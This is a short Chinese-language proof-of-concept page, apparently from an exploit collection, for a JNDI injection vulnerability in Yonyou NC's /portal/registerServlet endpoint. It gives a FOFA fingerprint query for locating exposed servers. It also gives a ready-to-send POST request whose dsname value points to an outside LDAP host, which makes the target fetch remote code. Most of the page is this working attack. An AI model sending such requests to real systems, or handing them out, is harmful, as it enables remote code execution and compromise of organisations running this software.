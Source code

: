 ## 用友NC系统registerServlet接口存在JNDI注入漏洞

## fofa
```
body="Client/Uclient/UClient.dmg"
```


## poc
```
POST /portal/registerServlet HTTP/1.1
Host: 192.168.63.129:8088
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

type=1&dsname=ldap://172.17.176.1:8085/blvVEcJU1
```

![image](https://github.com/wy876/POC/assets/139549762/1aac8d1d-b2c5-4f2d-af47-97c363a59274)

![image](https://github.com/wy876/POC/assets/139549762/e7c8e733-01fc-468b-9acc-b4de63428cdc)
